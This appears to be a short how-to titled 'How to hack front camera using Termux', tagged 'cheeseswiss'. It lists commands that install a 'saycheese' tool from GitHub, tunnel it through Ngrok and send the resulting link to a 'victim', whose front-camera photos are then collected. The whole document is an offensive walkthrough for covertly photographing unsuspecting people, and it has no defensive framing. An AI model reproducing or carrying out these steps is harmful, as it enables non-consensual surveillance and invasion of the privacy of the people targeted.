 # cheeseswiss
HOW TO HACK FRONT CAMERA USING TERMUX  1. apt upgrade &amp;&amp; apt update  2. apt install php  3. apt install git  4. git clone https://github.com/Anonymous3-SIT/saycheese  5. ls  6. cd saycheese  7. ls  8. chmod +x *  9. ls  10. bash (Then turn on your hotspot) and complete the command by writing saycheese.sh  11. Select option 2 which is Ngrok  12. It will then download Ngrok automatically and send you a link which you should send to the victim  13. Then wait for receiving cam files  14. CTRL +c to stop receiving images  15. ls  16. mv cam_______________.png /sdcard/images  17. Then go to your file manager and look for the folder of images in your sd card directory.  Copy with credit Credits to @ibrahimhamis
